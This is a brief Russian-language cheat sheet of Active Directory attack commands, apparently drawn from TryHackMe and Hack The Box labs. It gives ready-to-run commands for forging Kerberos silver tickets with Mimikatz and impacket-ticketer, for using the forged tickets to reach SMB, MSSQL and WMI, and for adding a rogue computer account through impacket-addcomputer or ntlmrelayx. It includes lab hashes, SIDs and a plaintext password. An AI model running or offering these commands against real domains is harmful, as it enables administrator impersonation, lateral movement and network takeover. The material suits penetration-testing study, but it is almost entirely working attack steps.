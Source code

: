    	
    	kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt

   	 kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /target:THMSERVER1 /rc4:4c02d970f7b3da7f8ab6fa4dc77438f4 /service:cifs /ptt

      	 /admin — имя пользователя, которое мы хотим выдать за себя. Это не обязательно должен быть действительный пользователь.
   	 /domain — полное доменное имя домена, для которого мы хотим создать билет.
   	 /id — RID пользователя. По умолчанию Mimikatz использует RID 500, который является RID учетной записи администратора по умолчанию.
   	 /sid — SID домена, для которого мы хотим сгенерировать билет.
   	 /target — имя хоста нашего целевого сервера. Давайте сделаем THMSERVER1.za.tryhackme.loc, но это может быть любой хост, присоединенный к домену.
   	 /rc4 - NTLM -хеш учетной записи машины нашей цели. Просмотрите результаты синхронизации постоянного тока и найдите NTLM- хеш THMSERVER1$. Знак $ указывает, что это учетная запись компьютера.
  	  /service — услуга, которую мы запрашиваем в нашем TGS. CIFS — беспроигрышный вариант, поскольку он обеспечивает доступ к файлам.
  	  /ptt — этот флаг сообщает Mimikatz о необходимости внедрения билета непосредственно в сеанс, что означает, что он готов к использованию. 

проверка

	dir \\thmserver1.za.tryhackme.loc\c$\
      
# silver ticket (linux)  

		SID domain 
  
		impacket-lookupsid inlanefreight.local/htb-student@dc01.inlanefreight.local -domain-sids

  		крафтим silver тикет from administrator и нужен hash хоста$

  		impacket-ticketer -nthash 542780725df68d3456a0672f59001987 -domain-sid S-1-5-21-1870146311-1183348186-593267556 -domain inlanefreight.local -spn cifs/dc01.inlanefreight.local Administrator
    
		impacket-ticketer -nthash 1443EC19DA4DAC4FFC953BCA1B57B4CF -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn nonexistent/DC.SEQUEL.HTB Administrator

  		идем к службе ---->
    
		export KRB5CCNAME=Administrator.ccache;
  		impacket-mssqlclient -k dc.sequel.htb
 		impacket-wmiexec -k -no-pass dc01.inlanefreight.local

# Добавление компутера в домен

		impacket-addcomputer authority.htb/svc_ldap:lDaP_1n_th3_cle4r! -method LDAPS -computer-name 'Evil-PC' -computer-pass 'Password123'

		sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'plaintext$'  (через ntlmrelay) + нужна провокация на идентификацию respnder or coerser)
  		